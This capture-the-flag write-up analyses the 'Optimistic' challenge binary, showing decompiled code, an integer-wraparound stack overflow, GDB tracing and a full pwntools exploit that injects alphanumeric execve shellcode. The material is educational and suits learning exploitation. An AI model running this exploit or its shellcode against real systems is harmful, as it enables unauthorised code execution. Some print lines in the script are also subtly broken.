

# Optimistic
## Behaviour
```
└─$ ./optimistic
Welcome to the positive community!
We help you embrace optimism.
Would you like to enroll yourself? (y/n): y
Great! Here's a small welcome gift: 0x7ffcf4d3df20
Please provide your details.
Email: y
Age: y
Length of name: -1
Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thank you! We'll be in touch soon.
zsh: segmentation fault  ./optimistic
```
## Static Analysis

```c
void main(void)

{
  int iVar1;
  ssize_t bytes_read;
  uint count;
  undefined4 local_80;
  undefined2 local_7c;
  char local_7a;
  undefined local_79;
  undefined auStack_78 [8];
  undefined auStack_70 [8];
  char name [96];
  
  initialize();
  puts("Welcome to the positive community!");
  puts("We help you embrace optimism.");
  printf("Would you like to enroll yourself? (y/n): ");
  iVar1 = getchar();
  local_7a = (char)iVar1;
  getchar();
  if (local_7a != 'y') {
    puts("Too bad, see you next time :(");
    local_79 = 0x6e;
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  printf("Great! Here\'s a small welcome gift: %p\n",&stack0xfffffffffffffff8);
  puts("Please provide your details.");
  printf("Email: ");
  bytes_read = read(0,auStack_78,8);
  local_7c = (undefined2)bytes_read;
  printf("Age: ");
  bytes_read = read(0,auStack_70,8);
  local_80 = (undefined4)bytes_read;
  printf("Length of name: ");
  __isoc99_scanf(&DAT_00102104,&count);                             // [1]
  if (0x40 < (int)count) {                                          // [2]
    puts("Woah there! You shouldn\'t be too optimistic.");
    exit(0);
  }
  printf("Name: ");
  bytes_read = read(0,name,(ulong)count);                           // [3]
  count = 0;
  while( true ) {
    if ((int)bytes_read + -9 <= (int)count) {                       // [4]
      puts("Thank you! We\'ll be in touch soon.");
      return;
    }
    iVar1 = isalpha((int)name[(int)count]);                         // [5]
    if ((iVar1 == 0) && (9 < (int)name[(int)count] - L'0'U)) break; // [6]
    count = count + 1;
  }
  puts("Sorry, that\'s an invalid name.");
  exit(0);
}
```

### CheckSec
```bash
└─$ pwn checksec --file optimistic                                             
[*] '/home/kali/htb/track/binexp/optimistic/optimistic'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments

```

### Vulnerability
- `[1]` an unsigned integer is taken as input
- `[2]` the variable is type-cast to a signed integer and checked whether its value is less than 64, allowing for negative numbers to satisfy the check
- `[3]` the same variable is type-cast to unsigned long data type; being *unsigned*, it is vulnerable to an integer wraparound, where a negative signed integer wraps around to a large number when unsigned.
This allows us to increase the amount of bytes read in by `read()` beyond the 64bytes that were checked in the statement at `[2]`
- `[4]` checks if the length of the payload minus 9 is less than or equal to `count` (which is set to 0 initially, then incremented later at `[7]`)
- `[5]` checks if the current character at `count` index of `name` is alphabetical, if true `isalpha` returns a non-zero value. if false, `isalpha` returns 0
- `[6]` if statement then double checks that the character at `count` index is also not a number between 0-9. if not, the while loop is broken from with `break;`

From this analysis, we can determine that the payload used needs to be alphanumeric in order to pass the checks and execute. Due to 9 bytes being removed from the check in the statement at `[4]`, an 8 byte address and the terminating nullbyte will not be checked, therefore not triggering the program to exit. This would allow for the exploit shellcode to remain in memory.


## Dynamic Analysis
During the course of developing the exploit, GDB was used to analyse the behaviour of the binary at certain points throughout execution. This was automated using the `gdbscript` functionality available in pwntools, to observe the flow of data throughout the program, so that we may better understand how an exploit would be run.

The address given by the binary is confirmed as the address of rbp by checking `info frame` in GDB. 

A breakpoint was also put on the `isalpha` function to determine whether the exploit was actually being checked before execution, with `p/c $rdi` being used to print the contents of the `rdi` register.

The output provided by GDB proved this to be the case:

```bash
[...SNIP...]
Breakpoint 2, isalpha (c=65) at ../include/ctype.h:41
41      in ../include/ctype.h
$100 = 65 'A'

Breakpoint 2, isalpha (c=65) at ../include/ctype.h:41
41      in ../include/ctype.h
$101 = 65 'A'

Breakpoint 2, isalpha (c=65) at ../include/ctype.h:41
41      in ../include/ctype.h
$102 = 65 'A'

Breakpoint 2, isalpha (c=65) at ../include/ctype.h:41
41      in ../include/ctype.h
$103 = 65 'A'

Breakpoint 2, isalpha (c=65) at ../include/ctype.h:41
41      in ../include/ctype.h
$104 = 65 'A'
```
 The `rdi` register was identified as the register used for `isalpha` parameters by locating the function call in Ghidra:



**GDB script:**
```python
gdbscript = '''
tbreak main
continue
info frame
break isalpha
commands
p/c $rdi
continue
end
'''.format(**locals())
```

## Exploitation

The bug lies in the input for `Name Length`, which has been type-cast to a signed integer type variable, which allows for negative numbers to be used as input. Due to the way signed integers are stored in memory using "[two's complement](https://en.wikipedia.org/wiki/Two%27s_complement)", the negative number then becomes a much larger number when cast back to an *unsigned* integer in the input for `Name`. This allows for more data to be read into the buffer for `Name` than the 96 assigned bytes, allowing for a buffer overflow which can be exploited to overwrite the `rbp` register. The contents of `rbp` can then be replaced with the address of the `Name` buffer which now holds our payload, and allowing for any input shellcode to be executed. 

To retrieve the flag for this challenge, shellcode would be needed as part of the payload. However, a function near the bottom, `isalpha`, appears to be checking the input for `Name` for alphabetical and numeric characters, respectively. Therefore an alphanumeric shellcode will be needed for the payload. Thankfully, some such shellcodes have already been created and shared by the cyber community.


**Python pwntools exploit:**
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 300.300.300.300 --port 1234 ./optimistic
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./optimistic')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '300.300.300.300'
port = int(args.PORT or 1234)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
break isalpha
commands
p/c $rdi
continue
end
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX disabled
# PIE:      PIE enabled
# RWX:      Has RWX segments

io = start()

# Would you like to enroll yourself? (y/n):
io.recvuntil(b":")
io.sendline(b'y')
# Great! Here's a small welcome gift: 0x[stack address]
io.recvuntil(b'gift:')
# capture the provided address and save as a base 16 integer (hex)
addr = int(io.recvline(), 16)
# removing 96 from the address to change the address to that of the overflowable buffer
print("recvd addr: " + addr);
addr -= 96
print("addr - 96: " + addr);
# convert address to 64-bit little endian in line with checksec architecture
addr = p64(addr, endian="little")
print(addr);
# Email:
io.recvuntil(b":")
io.sendline(b'y')
# Age:
io.recvuntil(b":")
io.sendline(b'y')
# Length of name - is received as a signed integer, -1 = large number when unsigned
io.recvuntil(b":")
io.sendline(b'-1')
#shellcode from https://www.exploit-db.com/exploits/35205
shellcode = b'XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V'
# enough padding to fill buffer and overwrite eip after shellcode
padding = b'A'* (104 - len(shellcode));
# concatenate shellcode, padding and address of overflowed buffer to final payload
payload = shellcode + padding + addr
print(payload);
# Provide payload as Name
io.recvuntil(b'Name: ')
io.sendline(payload);

io.interactive()
```